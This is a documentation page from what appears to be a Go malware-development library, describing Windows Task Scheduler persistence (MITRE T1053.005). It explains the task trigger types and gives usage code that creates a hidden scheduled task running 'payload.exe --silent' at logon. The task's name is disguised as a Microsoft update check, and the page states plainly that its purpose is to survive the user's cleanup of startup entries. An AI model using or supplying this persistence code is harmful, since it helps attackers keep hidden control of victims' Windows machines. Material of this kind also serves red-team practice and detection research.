

# Task Scheduler Persistence

[<- Back to Persistence Overview](README.md)

**MITRE ATT&CK:** [T1053.005 - Scheduled Task/Job: Scheduled Task](https://attack.mitre.org/techniques/T1053/005/)
**Package:** `persistence/scheduler`
**Platform:** Windows
**Detection:** Medium

---

## For Beginners

Windows Task Scheduler can run programs on triggers like logon, system startup, or daily schedules. Creating a scheduled task ensures the payload runs even if the user cleans the Startup folder or registry Run keys.

---

## How It Works



**Trigger types:**
- `TriggerLogon` — runs at user logon (requires elevation)
- `TriggerStartup` — runs at system boot (requires elevation)
- `TriggerDaily` — runs daily at a fixed time

---

## Usage

```go
import "github.com/oioio-space/maldev/persistence/scheduler"

err := scheduler.Create(`\Microsoft\Windows\Update\Check`,
    scheduler.WithAction(`C:\Temp\payload.exe`, "--silent"),
    scheduler.WithTriggerLogon(),
    scheduler.WithHidden(),
)

found, _ := scheduler.Exists(`\Microsoft\Windows\Update\Check`)

err = scheduler.Delete(`\Microsoft\Windows\Update\Check`)
```

---

## API Reference

See [persistence.md](../../persistence.md#persistencescheduler----task-scheduler)
